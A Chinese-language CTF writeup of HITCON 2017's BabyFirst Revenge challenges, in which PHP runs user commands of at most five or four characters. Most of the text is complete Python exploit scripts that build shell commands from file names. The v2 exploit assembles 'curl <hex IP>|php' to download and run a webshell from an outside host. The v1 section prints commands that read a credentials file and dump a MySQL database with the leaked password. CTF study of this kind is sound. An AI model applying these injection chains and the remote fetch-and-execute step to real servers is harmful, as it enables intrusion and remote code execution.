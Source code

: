 ```yaml
---
comments: false
title: HITCON CTF 2017 BabyFirst Revenge & v2 writeup
tags: [ctf,命令注入]
date: 2017-11-12 17:14:27
categories: writeup
description: 绕过四个字符限制getshell
---
```


> from HITCON CTF 2017
> 2017/11/04 02:00 UTC ~ 2017/11/06 02:00 UTC
>
> https://ctf2017.hitcon.org/

### BabyFirst Revenge

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
>
> <http://52.199.204.34/>

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

详细说明：http://bobao.360.cn/ctf/detail/214.html

拿到shell后在`/home/fl4444g/README.txt`  得到数据库配置信息，然后连接数据库得到flag。

```python
http://52.199.204.34/sandbox/___MD5___of___ip/shell.php?cmd=cat%20/home/fl4444g/README.txt
#    Flag is in the MySQL database
#fl4444g / SugZXUtgeJ52_Bvr

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "show databases;"
#    Database
#information_schema
#fl4gdb

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "select concat(table_name) from information_schema.tables where table_schema='fl4gdb';"
#    concat(table_name)
#this_is_the_fl4g

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g"
#    secret
#hitcon{idea_from_phith0n,thank_you:)}
```



![](getFlag.png)

#### EXP

```python
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'

reset = url + '?reset'
cmd = url + '?cmd='
build = ['>cur\\',
         '>l\ \\',
         'ls>A',
         'rm c*',
         'rm l*',
         '>105\\',
         '>304\\',
         '>301\\',
         '>9\>\\',
         'ls>>A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['>GE\\',
#          '>T\\ \\',
#          'ls>A',
#          'rm G*',
#          'rm T*',
#          '>105\\',
#          '>304\\',
#          '>301\\',
#          '>9\>\\',
#          'ls>>A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url

s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '\n' + '[%s]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge

### BabyFirst Revenge v2

> BabyFirst Revenge v2
> This is the hardest version! Short enough?
>
> http://52.197.41.31/

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

这题是赛后看wp复现的，只到拿webshell的部分。

详细说明： http://bobao.360.cn/ctf/detail/214.html

#### EXP

```python
#-*-coding:utf8-*-
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'

# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'

# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()

# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])

reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + \
    hashlib.md5('orange' + your_ip).hexdigest() + '/'

# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符

payload = [
    '>dir',
    # 创建名为 dir 的文件

    '>%s\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件

    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s

    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl

    '*>v',
    # * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符

    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v

    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f

    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\\',
    '>\|\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\ \\',
    '>rl\\',
    '>cu\\',

    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]

s = r.get(reset)
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2

### 参考链接

[来自小密圈里的那些奇技淫巧](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6) 
